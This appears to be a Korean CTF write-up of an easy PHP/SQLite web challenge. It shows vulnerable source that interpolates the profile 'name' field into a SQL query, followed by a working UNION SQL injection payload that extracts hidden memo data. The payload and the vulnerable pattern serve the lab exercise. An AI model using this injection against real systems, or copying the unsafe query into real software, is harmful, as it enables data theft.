

# Classic web

구분: 공통 문제
난이도: Easy
분야: Web
상태: 작성 완료
생성일: 2026년 8월 22일 오후 9:15
수정일: 2026년 9월 5일 오후 10:50

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | This is just one of those classic web challenges |
| 원본 대회 | Welcome CTF 2025 |
| 분야 | Web |
| 난이도 | 초급 · 약 2/5 |
| 접속 주소 | `http://localhost:1341` |
| 플래그 형식 | `FLAG{...}` |

Classic Web은 PHP와 SQLite를 사용하는 간단한 상점 및 프로필 관리 서비스입니다.

프로필을 수정했을 때 입력값이 서버 내부에서 어떤 방식으로 처리되고 상품 조회에 사용되는지 분석하세요.

데이터베이스 조회 과정의 취약점을 찾아 숨겨진 플래그를 획득하는 것이 목표입니다.

# 1. 문제 요약

- sqli 문제 name 값이 재사용 및 처리 미흡
- name 값이 재사용될때 popular'union%20select%20name%20,memo%20from%20important-- 를 삽입해 유니온 구문으로 memo값을 확인

---

# 2. 문제 분석

```python
<?php
$email = $_POST['email'] ?? '';
$name = $_POST['name'] ?? '';
$age = $_POST['age'] ?? 0;
$location = $_POST['location'] ?? '';
$bio = $_POST['bio'] ?? '';
$newsletter = $_POST['newsletter'] ?? '';
$category = $_POST['category'] ?? 'popular';

$_SESSION['email']=$email; $_SESSION['name']=$name; $_SESSION['age']=$age; $_SESSION['location']=$location; $_SESSION['bio']=$bio; $_SESSION['newsletter']=$newsletter; $_SESSION['category']=$category;

$db = new SQLite3(__DIR__ . '/app.db');
$stmt = $db->prepare('UPDATE users SET email=?, display_name=?, age=?, location=?, bio=?, newsletter=?, category=? WHERE id=1');
$stmt->bindValue(1,$email); $stmt->bindValue(2,$name); $stmt->bindValue(3,$age); $stmt->bindValue(4,$location); $stmt->bindValue(5,$bio); $stmt->bindValue(6,$newsletter); $stmt->bindValue(7,$category); $stmt->execute(); $stmt->close();

$user_category = $_SESSION['category'] ?? 'popular';
if ($user_category == 'popular') {
    $name = 'electronics';
} elseif ($user_category == 'trending') {
    $name = 'clothing';
} else {
    error_log('Invalid user category: ' . $user_category);
}

$stmt = $db->prepare("SELECT name, price FROM products WHERE category = '$name' LIMIT 10");
$result = $stmt->execute();
$products=[];
while ($row = $result->fetchArray(SQLITE3_ASSOC)) { $products[]=$row; }
$stmt->close(); $db->close();
?>
```

---

# 3. 풀이과정

```python
$user_category = $_SESSION['category'] ?? 'popular';
if ($user_category == 'popular') {
    $name = 'electronics';
} elseif ($user_category == 'trending') {
    $name = 'clothing';
} else {
    error_log('Invalid user category: ' . $user_category);
}에서 
error_log만 남기고 예외처리가 없어서 name그대로 재사용되어 spqi가 발생
```

- payload

email=user%[40example.com](http://40example.com/)&name=popular'union%20select%20name%20,memo%20from%20important-- &age=20&location=Seoul&bio=Just+a+regular+user&newsletter=weekly&category=pop



---

#